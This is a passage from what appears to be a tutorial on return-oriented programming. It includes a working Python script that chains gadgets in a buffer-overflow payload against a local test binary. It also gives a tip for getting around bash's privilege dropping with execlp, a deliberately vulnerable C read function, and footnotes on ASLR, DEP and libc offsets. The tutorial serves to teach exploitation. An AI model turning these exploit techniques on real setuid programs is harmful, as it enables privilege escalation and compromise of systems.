 This time we will use a `python` wrapper (which will also show off the use of the very useful `struct` python module).

~~~
:::python
#!/usr/bin/python

import os
import struct

# These values were found with `objdump -d a.out`.
pop_ret = 0x8048474
pop_pop_ret = 0x8048473
exec_string = 0x08048414
add_bin = 0x08048428
add_sh = 0x08048476

# First, the buffer overflow.
payload =  "A"*0x6c
payload += "BBBB"

# The add_bin(0xdeadbeef) gadget.
payload += struct.pack("I", add_bin)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xdeadbeef)

# The add_sh(0xcafebabe, 0x0badf00d) gadget.
payload += struct.pack("I", add_sh)
payload += struct.pack("I", pop_pop_ret)
payload += struct.pack("I", 0xcafebabe)
payload += struct.pack("I", 0xbadf00d)

# Our final destination.
payload += struct.pack("I", exec_string)

os.system("./a.out \"%s\"" % payload)
~~~

# Some useful tricks #

One common protection you will see on modern systems is for `bash` to drop privileges if it is executed with a higher effective user id than saved user id. This is a little bit annoying for attackers, because `/bin/sh` frequently is a symlink to `bash`. Since `system` internally executes `/bin/sh -c`, this means that commands run from `system` will have privileges dropped!

In order to circumvent this, we will instead use `execlp` to execute a `python` script we control in our local directory. We will demonstrate this and a few other tricks while exploiting the following simple program:

~~~
:::c
void vulnerable_read() {
	char buffer[100];
	read(STDIN_FILENO, buffer, 200);
}

int main(int argc, char** argv) {
	vulnerable_read();
	return 0;
}
~~~


[^1]: [ASLR](https://en.wikipedia.org/wiki/ASLR) is the technique where portions of the program, such as the stack or the heap, are placed at a random location in memory when the program is first run. This causes the address of stack buffers, allocated objects, etc to be randomized between runs of the program and prevents the attacker.
[^2]: [DEP](https://en.wikipedia.org/wiki/Data_Execution_Prevention) is the technique where memory can be either writable or executable, but not both. This prevents an attacker from filling a buffer with shellcode and executing it. While this usually requires hardware support, it is quite commonly used on modern programs. 
[^3]: To make life easier for us, we compile with `gcc -m32 -fno-stack-protector easy_rop.c`. 
[^4]: You'll note that we use print the exploit string in a python subshell.  This is so we can print escape characters and use arbitrary bytes in our payload. We also surround the subshell in double quotes in case the payload had whitespace in it.
[^7]: These can be found in the `libc` library itself: `ldd a.out` tells us that the library can be found at `/lib/i386-linux-gnu/libc.so.6`. We can use `objdump`, `nm`, `strings`, etc. on this library to directly find any information we need. These addresses will all be offset from the base of `libc` in memory and can be used to compute the actual addresses by adding the offset of `libc` in memory.
[^8]: I believe someone even [tried to prove](http://cseweb.ucsd.edu/~hovav/papers/rbss12.html) that ROP is turing complete.   
[^10]: Note the `$'\211'` syntax to enter escape characters.
[^11]: To see why this is necessary, compare the behavior of `echo ls | bash` to `cat <(echo ls) - | bash`.